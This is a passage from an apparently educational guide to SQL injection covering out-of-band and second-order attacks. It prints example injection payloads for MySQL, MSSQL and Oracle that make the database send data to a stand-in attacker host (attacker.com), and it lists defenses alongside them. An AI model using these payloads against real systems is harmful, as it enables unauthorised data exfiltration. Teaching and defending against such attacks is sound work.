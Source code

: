 > 💡 Tools like SQLMap can automate boolean/time-based inference and database extraction.

---

### 3. Out-of-Band SQLi
Used when the attacker cannot see output directly or observe timing. Leverages external services like DNS or HTTP callbacks.

- _Example_: `'; SELECT load_file('\\\\attacker.com\\leak') --`

> 🔍 **Out-of-Band SQLi Summary**  
> - **What is it?**: OOB SQLi is used when attackers cannot use the same channel to exfiltrate data (e.g., no error or timing feedback).  
> - **How it works**: The database sends data to an external server controlled by the attacker, often using DNS or HTTP requests.  
> - **Payload Examples**:
>   - **MSSQL**: `'; exec master..xp_dirtree '\\attacker.com\test' --`
>   - **Oracle**: `'; UTL_HTTP.REQUEST('http://attacker.com/leak') --`
>   - **MySQL**: `'; SELECT LOAD_FILE('\\\\attacker.com\\leak') --`
> - **When used**: Useful when UNION, error, and time-based SQLi aren't viable.  
> - **Defenses**:
>   - Disable dangerous functions like `LOAD_FILE`, `xp_cmdshell`, `UTL_HTTP`, etc.  
>   - Restrict outbound network access from the database server.  
>   - Use strict input validation and parameterized queries.

> 🧠 Note: This method requires features like `load_file`, `xp_dirtree`, or DNS lookups to be enabled in the DBMS.

---

### 4. Second-Order SQLi

Second-order SQLi occurs when malicious input is stored by the application (e.g., in a database) and later used unsafely in a different SQL context.

---

**How It Works:**
- Attacker submits payload in a **non-executing context** (e.g., signup form, profile update).
- Later, the app **retrieves and uses** that stored data in a vulnerable SQL query **without sanitization**.
- The SQLi is triggered **indirectly**, making detection harder.

---

**Example Scenario:**
1. User signs up with a username:  
   `'admin' --`  
   (no attack triggered here)
2. Later, the app runs:  
   ```sql
   SELECT * FROM users WHERE username = '$stored_username'
   ```
   → SQLi triggers here when `$stored_username` is inserted unsanitized.

---